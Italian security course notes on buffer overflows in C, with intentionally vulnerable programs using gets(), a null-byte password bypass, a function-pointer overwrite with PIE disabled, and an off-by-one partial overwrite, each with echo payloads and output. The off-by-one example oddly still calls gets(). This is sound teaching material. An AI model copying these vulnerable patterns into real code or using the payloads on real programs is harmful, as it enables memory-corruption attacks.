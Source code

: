 Questa vulnerabilità è causata da una programmazione **unsafe**, programmare in modo "sicuro" infatti non è garantito da molti linguaggi (e.g. C), per questo sono importati dei meccanismi di **mitigazione**.

>[!info] **Buffer overflow**
>A condition at an interface under which more input can be placed into a buffer or data holding area than the capacity allocated, overwriting other information. Attackers exploit such a condition to crash a system or to insert specially crafted code that allows them to gain control of the system.
>SOURCE: [SP 800-28; CNSSI-4009](https://nvlpubs.nist.gov/nistpubs/ir/2013/NIST.IR.7298r2.pdf)

Panoramica di C:

| Vantaggi                      | Svantaggi                                                               |
| ----------------------------- | ----------------------------------------------------------------------- |
| Accesso completo alle risorse | Accesso ai dati in modo non sicuro                                      |
| Elevata performance           | È responsabilità del programmatore implementare meccanismi di sicurezza |
|                               | Ci sono molte funzioni unsafe nella stl                                 |

```c
#include <string.h>
#include <stdio.h>
char buffer1[8]="one"; // buffer of size 8 initialized with "one"
int value = 5;
char buffer2[8]="two"; // buffer of size 8 initialized with "two"
int main(int argc, char *argv[]) {
	printf("[BEFORE] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[BEFORE] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[BEFORE] buffer2 @ %1$p = %1$s\n", buffer2);
	
	printf("Please enter your input: ");
	gets(buffer1); // reads input into buffer1, whatever length!
	printf("\n");
	printf("[AFTER] buffer1 @ %1$p = %1$s\n", buffer1);
	printf("[AFTER] value @ %1$p = 0x%2$08x\n",&value, value);
	printf("[AFTER] buffer2 @ %1$p = %1$s\n", buffer2);
}
```

Notare come $7$ caratteri stiano dentro al buffer, con $9$ straripa completamente scrivendo il valore `0x39` che è il carattere ASCII per `9`, mentre da $17$ caratteri in poi va a scrivere dentro al secondo buffer:
```bash
[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 1234567
[AFTER]  buffer1 @ 0x6b90f0 = 1234567
[AFTER]  value   @ 0x6b90f8 = 0x00000005
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input:
[AFTER]  buffer1 @ 0x6b90f0 = 123456789
[AFTER]  value   @ 0x6b90f8 = 0x00000039
[AFTER]  buffer2 @ 0x6b9100 = two

[BEFORE] buffer1 @ 0x6b90f0 = one
[BEFORE] value   @ 0x6b90f8 = 0x00000005
[BEFORE] buffer2 @ 0x6b9100 = two
Please enter your input: 12345678999999999
[AFTER]  buffer1 @ 0x6b90f0 = 12345678999999999
[AFTER]  value   @ 0x6b90f8 = 0x39393939
[AFTER]  buffer2 @ 0x6b9100 = 9
```

Se mettessimo una stringa ancora più lunga prima o poi otterremmo un `segmentation fault`, la colpa di questo _buffer overflow_ è dovuta alla funzione `gets()` la quale è legacy ed unsafe.

Prendendo in considerazione questo codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
char buffer1[8]="......."; // buffer of size 8 for input
char buffer2[8]="sEgr3t0"; // buffer of size 8 initialized with the password
int main(int argc, char *argv[]) {
	printf("Insert password: ");
	gets(buffer1); // reads the user password, no check on length!
	if (strcmp(buffer1, buffer2) == 0) {
		printf("Authenticated!\n");
		exit(EXIT_SUCCESS);
	} else {
		printf("Wrong password!\n");
		exit(EXIT_FAILURE);
	}
}
```

È possibile bypassare il controllo della password inserendo `0x00` tra due stringhe di `buffer2.length()` caratteri:
```bash
echo -e "AAAAAAA\x00AAAAAAA" | ./overflow-pwd
```

### Position Independent Executionable (PIE)
Immaginando di avere il seguente codice:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
typedef struct element {
	char data[16];
	void (*f)(char *);
} element_t;

void secret_function() {
	printf("Secret function!\n");
}

void show_data(char *s) {
	printf("Data = %s\n",s);
}

int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	printf("Insert data: ");
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
}
```

E compilandolo con:
```bash
gcc overflow-struct.c -o overflow-struct --no-pie --static
```
andiamo a disabilitare **PIE**, il quale viene usato per posizionare in modo casuale il programma in memoria , in questo modo possiamo trovare facilmente l'indirizzo in memoria della funzione `e.f()`.

Otteniamo l'indirizzo di `secret_function`:
```bash
gdb -q overflow-struct
(gdb) disas secret_function
Dump of assembler code for function secret_function:
   0x0000000000400b4d <+0>:     push   rbp
   ...
```

procediamo riempiendo il buffer `data[]`, e poi inseriamo l'indirizzo della funzione che vogliamo eseguire:
```bash
# little endian
echo -e "AAAAAAAAAAAAAAAA\x4d\x0b\x40\x00\x00\x00\x00\x00"
Insert data: Secret function!
```

### Off-by-one
La locazione casuale del programma (PIE) riduce l'esposizione a questo tipo di attacchi, tuttavia questa vulnerabilità può ancora essere abusata, in quanto la randomizzazione "mantiene" gli [[Mapping#Mapping|offset]].

Modificando il main come segue:
```c
int main(int argc, char *argv[]) {
	element_t e;
	e.f = show_data;
	char c;
	printf("Insert data: ");
	memset(e.data,0,sizeof(e.data));
	
	for (int i=0; i<=sizeof(e.data) && (c=getc(stdin))!= EOF && c != '\n'; i++) {
		e.data[i] = c;
	}
	gets(e.data); // reads data, unsafe!
	e.f(e.data);
	
	printf("show_data = %p, secret_function = %p\n",show_data,secret_function);
}
```

```bash
echo -e "AAAAAAAAAAAAAAAA\xca" | ./overflow-struct-offbyone
Insert data: Secret function!
show_data = 0x560975daa7dd, secret_function = 0x560975daa7ca
```
è solo necessario sovrascrivere l'ultimo byte con `0xca`, il quale è il primo byte in memoria a causa del **little endian**, in pratica stiamo solo eseguendo uno shift del puntatore alla funzione che vogliamo.